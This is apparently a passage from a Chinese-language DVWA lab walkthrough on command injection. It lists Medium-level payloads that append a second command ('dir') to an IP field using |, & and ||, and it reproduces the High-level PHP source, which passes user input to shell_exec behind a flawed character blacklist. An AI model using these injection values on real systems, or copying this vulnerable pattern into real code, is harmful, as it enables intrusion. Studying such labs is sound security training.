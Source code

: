 ```
127.0.0.1 | dir
127.0.0.1 & dir
bbbbbbbbb || dir
```

![image-20220510102531466.png](_img/assets/1652254456408-a10d130f-f9b1-45f7-85f5-f461c72d1860.png)

![image-20220510102548433.png](_img/assets/1652254460659-289efd9f-9fc3-462a-9717-97ce8d5f6a00.png)

![image-20220510102610593.png](_img/assets/1652254465063-d26c2c2b-7609-4788-9330-1fb81c53af41.png)


# 3、High

**查看源码**

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = trim($_REQUEST[ 'ip' ]);

    // Set blacklist
    $substitutions = array(
        '&'  => '',
        ';'  => '',
        '| ' => '',
        '-'  => '',
        '$'  => '',
        '('  => '',
        ')'  => '',
        '`'  => '',
        '||' => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "
<pre>{$cmd}</pre>";
}

?>
```
